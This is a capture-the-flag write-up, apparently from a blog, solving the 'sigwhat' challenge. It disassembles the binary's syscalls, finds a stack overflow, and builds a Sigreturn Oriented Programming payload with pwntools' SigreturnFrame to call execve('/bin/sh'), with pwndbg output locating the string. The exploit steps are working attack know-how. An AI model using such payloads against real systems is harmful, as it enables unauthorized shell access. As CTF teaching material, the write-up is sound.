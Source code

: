 If we look at the next instructions before the 2nd `syscall`, we can use the same *System Call Table* to figure out what it does
```nasm
mov eax, 0     ; sys_read
mov edi, 0     ; stdin
mov rsi, rsp   ; Load stack pointer in rsi
sub rsi, 8     ; Subtract 8 from value in rsi
mov edx, 0x1F4 ; Read 0x1F4 bytes
syscall
```
{: .nolineno }

We can see that the second syscall calls `sys_read`, which is a way of reading input. The input is collected from `stdin` (`edi=0`), which is where we provide our input from (aka the terminal). Our input is placed on the stack (value of `rsi`), and we can provide 0x1f4(500) bytes(`edx=0x1F4`).

Now that we know what the program does, what happens if we give it a cyclic pattern of 500 bytes?

Well, it crashes at the address `0x6161616161616162`, which means that after 8 bytes of input we overwrite the return address stored on the stack.

Compared to the previous challenges we did, there is no `win` function, so how do we get the flag?

The clue lies in that we have `syscall`, and the challenge name `sigwhat`. There is a technique called [Sigreturn Oriented Programming (SROP)](https://en.wikipedia.org/wiki/Sigreturn-oriented_programming) which we can use. TLDR of the exploit is that we can create a fake `sigcontext structure` on the stack, where we give the registers the values we want, and when a `sigreturn` call happens the context of the registers are restored from the stack with the values stored in this structure.


As we can overwrite the return address stored on the stack, essentially execute *almost* anything we want, we can force the `sigreturn` call to restore the registers with our *fake structure*. This is done by calling the `syscall` instruction with the value `0xf`(15) stored in the `rax` register. If our *fake structure* is stored on the stack after those instructions it will be used to restore the context of all the registers. This allows us to call `sys_execve` with the address of `/bin/sh` in the `rdi` register, which essentially is like calling `system("/bin/sh")`, giving us shell on the remote machine(this all will make more sense once we assemble our payload).


We start by creating our fake structure using pwntools' [SigreturnFrame](https://docs.pwntools.com/en/stable/rop/srop.html).

```python
frame = SigreturnFrame()
frame.rax = 0x3b         # rax = sys_execve
frame.rdi = 0x400590     # rdi = Address of the string "/bin/sh"
frame.rsi = 0x0          # rdi = 0
frame.rdx = 0x0          # rdx = 0
frame.rip = syscall      # Execute sys_execve("/bin/sh", 0, 0) to get shell
```
{: .nolineno }

We found the address of `/bin/sh` using GDB. When we run the program, and break with CTRL+C we can search for the string to find its address (since PIE is disabled it will be constant for each run)
```console
pwndbg> search /bin/sh
Searching for value: '/bin/sh'
sigwhat         0x400590 0x68732f6e69622f /* '/bin/sh' */
sigwhat         0x600590 0x68732f6e69622f /* '/bin/sh' */
libc.so.6       0x7ffff7f5f698 0x68732f6e69622f /* '/bin/sh' */
```

